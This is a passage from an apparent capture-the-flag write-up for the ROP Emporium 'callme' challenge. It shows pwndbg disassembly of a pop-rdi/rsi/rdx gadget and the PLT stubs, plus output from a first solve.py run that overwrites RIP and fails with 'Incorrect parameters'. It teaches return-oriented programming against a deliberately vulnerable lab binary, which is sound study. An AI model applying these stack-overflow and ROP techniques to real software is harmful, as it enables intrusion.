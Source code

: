 ```python
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:	pop    rdi
   0x000000000040093d <+1>:	pop    rsi
   0x000000000040093e <+2>:	pop    rdx
   0x000000000040093f <+3>:	ret    
End of assembler dump.
```

callme_one, callme_two, callme_three

```python
pwndbg> disassemble callme_one
Dump of assembler code for function callme_one@plt:
   0x0000000000400720 <+0>:	jmp    QWORD PTR [rip+0x20091a]        # 0x601040 <callme_one@got.plt>
   0x0000000000400726 <+6>:	push   0x5
   0x000000000040072b <+11>:	jmp    0x4006c0
End of assembler dump.
pwndbg> disassemble callme_two
Dump of assembler code for function callme_two@plt:
   0x0000000000400740 <+0>:	jmp    QWORD PTR [rip+0x20090a]        # 0x601050 <callme_two@got.plt>
   0x0000000000400746 <+6>:	push   0x7
   0x000000000040074b <+11>:	jmp    0x4006c0
End of assembler dump.
pwndbg> disassemble callme_three
Dump of assembler code for function callme_three@plt:
   0x00000000004006f0 <+0>:	jmp    QWORD PTR [rip+0x200932]        # 0x601028 <callme_three@got.plt>
   0x00000000004006f6 <+6>:	push   0x2
   0x00000000004006fb <+11>:	jmp    0x4006c0
End of assembler dump.
```

On our first try, after overwriting RIP with the address of usefulFunction, we will get an "Incorrect parameters" message.

```python
wayell@ubuntu:~/Desktop/ROPEmporium/3.callme$ python3 solve.py
[*] '/home/wayell/Desktop/ROPEmporium/3.callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/wayell/Desktop/ROPEmporium/3.callme/callme': pid 44413
/home/wayell/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 [*] Process '/home/wayell/Desktop/ROPEmporium/3.callme/callme' stopped with exit code 1 (pid 44413)
Thank you!
Incorrect parameters
```
